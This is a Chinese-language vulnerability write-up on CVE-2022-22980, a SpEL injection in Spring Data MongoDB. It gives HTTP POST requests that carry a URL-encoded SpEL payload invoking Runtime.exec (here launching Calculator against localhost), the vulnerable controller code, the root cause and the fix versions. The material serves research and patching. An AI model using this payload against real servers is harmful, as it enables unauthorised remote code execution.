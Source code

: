 ## Spring Data MongoDB SpEL  CVE-2022-22980



### 漏洞复现



findAllByIdLike是会触发漏洞

```http
POST /demo HTTP/1.1
Host: 127.0.0.1:8080
Accept: */*
Accept-Encoding: gzip
Content-Length: 175
Content-Type: application/x-www-form-urlencoded
User-Agent: curl/7.79.1

keyword=T%28java.lang.String%29.forName%28%27java.lang.Runtime%27%29.getRuntime%28%29.exec%28%27%2FSystem%2FApplications%2FCalculator.app%2FContents%2FMacOS%2FCalculator%27%29
```



![image-20220622193502429](./CVE-2022-22980 Mongodb SpEL.assets/image-20220622193502429.png)



findAllByIdLike2也是会触发漏洞

```http
POST /demo2 HTTP/1.1
Host: 127.0.0.1:8080
Accept: */*
Accept-Encoding: gzip
Content-Length: 175
Content-Type: application/x-www-form-urlencoded
User-Agent: curl/7.79.1

keyword=T%28java.lang.String%29.forName%28%27java.lang.Runtime%27%29.getRuntime%28%29.exec%28%27%2FSystem%2FApplications%2FCalculator.app%2FContents%2FMacOS%2FCalculator%27%29
```





![image-20220622203216062](./CVE-2022-22980 Mongodb SpEL.assets/image-20220622203216062.png)



findAllByIdLike3是不会触发漏洞

```http
POST /fix HTTP/1.1
Host: 127.0.0.1:8080
Accept: */*
Accept-Encoding: gzip
Content-Length: 175
Content-Type: application/x-www-form-urlencoded
User-Agent: curl/7.79.1

keyword=T%28java.lang.String%29.forName%28%27java.lang.Runtime%27%29.getRuntime%28%29.exec%28%27%2FSystem%2FApplications%2FCalculator.app%2FContents%2FMacOS%2FCalculator%27%29
```

![image-20220622203109972](./CVE-2022-22980 Mongodb SpEL.assets/image-20220622203109972.png)





产生漏洞的代码

``` java
package com.sumsec.bug.spring.data.mongodb.controller;

import com.sumsec.bug.spring.data.mongodb.repository.DemoRepository;
import java.util.List;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.RestController;

@RestController
public class DemoController {

    private final DemoRepository demoRepository;

    public DemoController(DemoRepository demoRepository) {
        this.demoRepository = demoRepository;
    }

    @RequestMapping(value = "/demo")
    public List<?> demo(@RequestParam(name = "keyword") String keyword) {
        return demoRepository.findAllByIdLike(keyword);
    }

    @RequestMapping(value = "/demo2")
    public List<?> fix(@RequestParam(name="keyword") String keyword){
        return demoRepository.findAllByIdLike2(keyword);
    }

    @RequestMapping(value = "/fix")
    public List<?> fix2(@RequestParam(name="keyword") String keyword){
        return demoRepository.findAllByIdLike3(keyword);
    }
}

```



---

### 漏洞成因

在2014年SpEL支持了Spring Data JPA Query，相关文章[**SpEL support in Spring Data JPA @Query definitions**](https://spring.io/blog/2014/07/15/spel-support-in-spring-data-jpa-query-definitions)。



![image-20220622203554818](./CVE-2022-22980 Mongodb SpEL.assets/image-20220622203554818.png)



---

### 修复方案



* 升级到Spring Data MongoDB 3.4.1和3.3.5
* 使用[0]代替 ?0



---

### 参考

https://github.com/spring-projects/spring-data-examples/tree/main/jpa/security/src/main/java/example/springdata/jpa/security